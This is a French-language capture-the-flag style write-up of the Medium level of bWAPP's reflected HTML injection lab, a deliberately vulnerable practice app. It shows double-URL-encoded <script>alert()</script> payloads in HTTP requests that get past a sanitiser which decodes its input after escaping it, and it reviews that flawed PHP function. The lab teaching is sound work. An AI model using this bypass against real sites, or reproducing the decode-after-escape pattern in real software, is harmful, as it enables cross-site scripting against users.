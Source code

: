 # Niveau "Medium"

## Exploitation

L'affichage du prénom et du nom s'effectue ici de la même manière au sein d'une balise `<div></div>` :&#x20;

![](<../../../../../.gitbook/assets/image (17) (1).png>)

Dont voici la requête :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=prenom%5Blvl+medium%5D&lastname=nom%5Blvl+medium%5D&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=41a2ae9ea948edd613914b6d27214575; security_level=1
Connection: close
```

L'affichage des paramètres d'URL se faire directement au sein de la balise `<div></div>` contenant également le formulaire :&#x20;

```html
<div id="main">
  <h1>HTML Injection - Reflected (GET)</h1>
  <p>Enter your first and last name:</p>
  <form action="/bWAPP/htmli_get.php" method="GET">
    <p>
      <label for="firstname">First name:</label><br />
      <input type="text" id="firstname" name="firstname">
    </p>
    <p>
      <label for="lastname">Last name:</label><br />
      <input type="text" id="lastname" name="lastname">
    </p>
    <button type="submit" name="form" value="submit">Go</button>  
  </form>
  <br />
  Welcome prenom[lvl medium] nom[lvl medium]
</div>
```

Cela oblige donc à passer par l'insertion de nouvelles balises afin d'injecter du contenu. Dans ce niveau de difficulté, aucune balise ne semble être interprétée par l'application, que cela soit le classique `<script></script>` :&#x20;

![](<../../../../../.gitbook/assets/image (3) (1).png>)

L'exécution de Javascript dans un attribut HTML :&#x20;

![](<../../../../../.gitbook/assets/image (20) (1).png>)

Ou également l'utilisation de balises customs :&#x20;

![](<../../../../../.gitbook/assets/image (18) (1).png>)

Pour réussir ce challenge il va donc falloir identifier un moyen de transmettre l'information sous une autre forme mais qui sera tout de même interprétée par l'application. Après plusieurs tentatives, l'encodage URL de l'injection semble fonctionner :&#x20;

```http
GET /bWAPP/htmli_get.php?firstname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2530%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&lastname=%253c%2573%2563%2572%2569%2570%2574%253e%2561%256c%2565%2572%2574%2528%2531%2529%253c%252f%2573%2563%2572%2569%2570%2574%253e&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=b6b6991fd6ae6e9926d4e8dab4692f15; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (9) (1).png>)

## Analyse du code source

Après avoir testé que les paramètres sont bien présents, l'affichage s'effectue grâce à un simple `echo` :

{% code title="htmli_get.php" %}
```php
if(isset($_GET["firstname"]) && isset($_GET["lastname"])) {
  $firstname = $_GET["firstname"];
  $lastname = $_GET["lastname"];

  if($firstname == "" or $lastname == "") {
    echo "<font color=\"red\">Please enter both fields...</font>";
  }
  else {
    echo "Welcome " . htmli($firstname) . " " . htmli($lastname);
  }
}
```
{% endcode %}

Les données sont au préalable traitées par la méthode `htmli()` permettant de gérer la difficulté du niveau sélectionné :

{% code title="htmli_get.php" %}
```php
function htmli($data) {

  switch($_COOKIE["security_level"]) {
    case "0" :
      $data = no_check($data);
      break;
    case "1" :
      $data = xss_check_1($data);
      break;
    case "2" :
      $data = xss_check_3($data);
      break;
    default :
      $data = no_check($data);
      break;
  }

  return $data;
}
```
{% endcode %}

Le level "Medium" correspond à la valeur 1, c'est à dire ici à l'exécution de la méthode `xss_check_1()` :&#x20;

{% code title="functions_external.php" %}
```php
function xss_check_1($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);

    // Failure is an option
    // Bypasses double encoding attacks
    // <script>alert(0)</script>
    // %3Cscript%3Ealert%280%29%3C%2Fscript%3E
    // %253Cscript%253Ealert%25280%2529%253C%252Fscript%253E
    $input = urldecode($input);

    return $input;
}
```
{% endcode %}

La fonction remplace les caractères `<` et `>` par leur équivalent en entité HTML, soit respectivement `&lt` et `&gt`, rendant impossible l'injection de balises HTML. La ligne 12, par contre, effectue un décodage URL avant de retourner la valeur pour affichage. Le contournement ici sera donc d'encoder URL l'injection (en fait à minima les caractères `<` et `>`) qui sera décodée par la fonction `xss_chech_1()`:

```http
GET /bWAPP/htmli_get.php?firstname=%253cscript%253ealert%280%29%253c%2Fscript%253e&lastname=%253cscript%253ealert%281%29%253c%2Fscript%253e&form=submit HTTP/1.1
Host: 192.168.56.116
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie: PHPSESSID=1596dd4de4ad3324f300dfed9d8523f5; security_level=1
Connection: close
```

![](<../../../../../.gitbook/assets/image (15).png>)
